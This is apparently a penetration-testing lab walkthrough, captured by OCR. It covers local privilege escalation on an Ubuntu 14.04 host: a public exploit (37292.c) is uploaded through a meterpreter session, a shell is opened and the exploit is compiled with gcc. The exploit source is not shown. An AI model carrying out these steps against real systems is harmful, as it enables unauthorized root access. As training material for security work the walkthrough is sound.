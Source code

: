         [+] Info:
        [+]     Ubuntu 14.04.2 LTS
        [+]     Linux ubuntu 3.16.0-30-generic #40-14.04.1-Ubuntu SMP Thru Jan 15
        [+]     Module running as "els" user
        ```

        From the previous snapshot, we can see that we have access to a Linux Ubuntu 14.04.2 LTS (32bit) machine. Moreover we can see we are actually running under the user named `els`.

      Our goal is to obtain highest privileges on the machine, which in this case means getting access as root. The most basic thing we can do is searching online for publicly available privilege escalation exploit.

        If we check our OS with + the keyword `privilege escalation`, there seems to be something available for our current system.

        Most of the time, you will find the source code of the exploit and you will have to compile it.

        If the remote machine has everything you need you can compile the exploit directly on the target, otherwise you will have to compile it on your own machine. In the latter case, be aware to use the correct configuration and select the right architecture.

        **Compile on the target**
          Let us suppose the target machine has everything we need, in other words, `gcc` is installed and we can compile the file.
          What we can do is upload the source file on the target, get a shell on it  through meterpreter and then compile the exploit.

          In order to upload the file, we just need to use the upload command that meterpreter already implements. We need to provide the local path of the exploit and then the remote path, where to upload the file:
            ```
            meterpreter > upload /home/stduser/Downloads/37292.c
            [*] uploading  : /home/stduser/Downloads/37292.c -> .
            [*] uploaded   : /home/stduser/Downloads/37292.c -> ./37292.c
            meterpreter > ls
            Listing: /home/els/Documents
            ============================

            Mode              Size  Type    Last Modified               Name
            ----              ----  ----    -------------               ----
            100664/rw-rw-r--  5123  fil     2016-02-24 12:05:21 -0500   37292.c
            ```

          Now let's get a terminal session with the `shell` command and then compile the source with `gcc`. The compiled exploit will be named exploit.
            ```
            meterpreter > shell
            Process 6010 created
            Channel 1 created.
            $ ls
            37292.c
            $ gcc 37292.c -o exploit
            $ ls -l
            total 20
            -rw-rw-r--  1 els els   5123 Feb 24 09:05 37292.c
            -rw-rwxr-x  1 els els  12149 Feb 24 09:07 exploit
            ```
